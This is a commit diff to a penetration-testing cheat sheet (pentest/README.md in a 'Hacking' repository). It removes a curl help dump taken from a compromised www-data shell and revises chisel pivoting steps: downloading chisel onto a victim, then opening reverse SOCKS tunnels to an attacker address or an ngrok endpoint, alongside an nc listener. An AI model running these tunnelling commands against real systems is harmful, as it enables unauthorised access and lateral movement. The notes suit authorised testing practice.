

Before and after one commit to 4nuit/Hacking, a Markdown page: pentest/README.md, 2 parts joined by grey strips. Shown: that part at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
fix tools

````diff
--- a/pentest/README.md
+++ b/pentest/README.md
@@ -117,26 +117,6 @@ draining buffers... ━━━━━━━━━━━━━━━━━━━━
 (remote) www-data@d6f20cba02d9:/var/www/html$ cd /tmp
 (remote) www-data@d6f20cba02d9:/tmp$ chmod +x curl-amd64
 (remote) www-data@d6f20cba02d9:/tmp$ ./curl-amd64 -h
-Usage: curl [options...] <url>
- -d, --data <data>           HTTP POST data
- -f, --fail                  Fail fast with no output on HTTP errors
- -h, --help <subject>        Get help for commands
- -o, --output <file>         Write to file instead of stdout
- -O, --remote-name           Write output to file named as remote file
- -i, --show-headers          Show response headers in output
- -s, --silent                Silent mode
- -T, --upload-file <file>    Transfer local FILE to destination
- -u, --user <user:password>  Server user and password
- -A, --user-agent <name>     Send User-Agent <name> to server
- -v, --verbose               Make the operation more talkative
- -V, --version               Show version number and quit
-
-This is not the full help; this menu is split into categories.
-Use "--help category" to get an overview of all categories, which are:
-auth, connection, curl, deprecated, dns, file, ftp, global, http, imap, ldap, output, pop3,
-post, proxy, scp, sftp, smtp, ssh, telnet, tftp, timeout, tls, upload, verbose.
-Use "--help all" to list all options
-(remote) www-data@d6f20cba02d9:/tmp$
 ```
 
 ### Wordlists & Creds
@@ -318,21 +298,18 @@ nc -nlvp 9000
 
 ### Pivoting / Remote Port Forwarding + Tunneling
 
+```bash
+cd /tmp
+wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz -O /tmp/chisel.gz
+gzip -d chisel.gz
+chmod +x chisel
+```
+
 #### Attacker / HOST (chisel, do the same on remote/ victim)
 
 ```bash
-rm -rf /opt/tools/chisel/
-mkdir -p /opt/tools/chisel/
-
-wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz -O /opt/tools/chisel/chisel.gz
-gzip -d /opt/tools/chisel/chisel.gz
-mv /opt/tools/chisel/chisel /opt/tools/chisel/chisel.elf
-chmod +x /opt/tools/chisel/chisel.elf
-```
-
-```bash
 # On PRIVATE network
-./chisel.elf server -p 8080 --reverse
+./chisel server -p 8080 --reverse
 
 # On PUBLIC network (General way)
 ./chisel server --host localhost -p <PORT_LISTENER_NCAT> --reverse -v
@@ -342,7 +319,7 @@ chmod +x /opt/tools/chisel/chisel.elf
 
 ```bash
 # On PRIVATE network + FULL Tunneling (SOCKS)
-.\chisel.exe client 192.168.45.218:8080 R:socks
+./chisel client 192.168.45.218:8080 R:socks
 
 # On PUBLIC network + PARTIAL port Tunneling
 ./chisel client X.tcp.eu.ngrok.io:YYYYY R:<PORT_TOMAP>:127.0.0.1:<PORT_TOMAP>
@@ -357,7 +334,7 @@ nmap -p <PORT_TOMAP> 127.0.0.1
 #### Host : Proxychains4 with SOCKS5
 
 - https://github.com/Andrei-Masilevich/proxychains4
-- or `proxychains.conf`
+- `proxychains -f config.conf`
 
 ```bash
 sudo nano /etc/proxychains4.conf
````
